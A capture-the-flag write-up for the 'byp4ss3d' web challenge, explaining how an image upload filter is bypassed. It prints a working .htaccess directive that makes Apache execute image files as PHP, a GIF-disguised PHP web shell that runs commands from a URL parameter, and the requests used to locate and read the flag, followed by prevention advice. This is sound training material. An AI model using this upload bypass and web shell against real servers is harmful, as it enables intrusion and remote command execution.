






# byp4ss3d - File Upload Bypass

**Challenge**: byp4ss3d (300 points)  
**Category**: Web Exploitation  
**Author**: Yahaya Meddy

## Challenge Description
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? The hint reveals that "Apache can be tricked into executing non-PHP files as PHP with a .htaccess file."



## Solution

### Understanding the Vulnerability
The web application allows file uploads with basic image extension checks (.jpg, .png, .gif). However, the server uses Apache, which can be configured via `.htaccess` files to treat specific file types as PHP executables.

### Attack Strategy
The key insight is that we need to upload two files:
1. A malicious [.htaccess](./htaccess.md) file that configures Apache to execute image files as PHP
2. A PHP web shell disguised with an image extension

### Creating the Exploit Files

**File 1: `.htaccess`**
```bash
AddType application/x-httpd-php .jpg .jpeg .png .gif
```
This directive tells Apache to process files with image extensions as PHP scripts.

**File 2: `shell.jpg`**
```php
GIF89a;  // This is a GIF file header/magic number It makes the file appear as a valid GIF image to basic file type checks
<?php 
if(isset($_GET['cmd'])) {     // Checks if a URL parameter called cmd exists $_GET['cmd'] accesses URL parameters (e.g., ?cmd=whoami) isset() returns true if the parameter is provided
    system($_GET['cmd']);  // system() is a PHP function that runs shell commands
} else {
    echo "Shell is working!";  // Default command that runs if no cmd parameter is provided
    system('ls -la');
}
?>
```
The `GIF89a;` header helps bypass any basic file content checks, while the PHP code provides command execution capability.




### Uploading the Files
1. Accessed the upload portal at the provided URL
2. First uploaded the `.htaccess` file
3. Then uploaded the `shell.jpg` file
4. Both files were successfully uploaded to the `/images/` directory




### Step 5: Executing Commands
After successful uploads, accessed the web shell:
```
http://[instance-url]/images/shell.jpg?cmd=id
```



Verified the shell was working by listing directory contents, which showed both our uploaded files present.

### Finding the Flag
Used the shell to search for the flag file:
```
http://[instance-url]/images/shell.jpg?cmd=find / -name "*flag*" 2>/dev/null
```




Located the flag at `/var/www/flag.txt` and retrieved it:
```
http://[instance-url]/images/shell.jpg?cmd=cat /var/www/flag.txt
```




## Flag
`picoCTF{s3rv3r_byp4ss_4961368b}`

## Prevention
To prevent this vulnerability:
1. Store uploaded files outside the web root
2. Disable `.htaccess` overrides in Apache configuration
3. Implement proper file type verification using MIME types, not just extensions
4. Use a whitelist approach for allowed file types
5. Scan uploaded files for malicious content
6. Set proper permissions on uploaded directories


you can learn more about `.htaccess` from [here](https://httpd.apache.org/docs/current/howto/htaccess.html)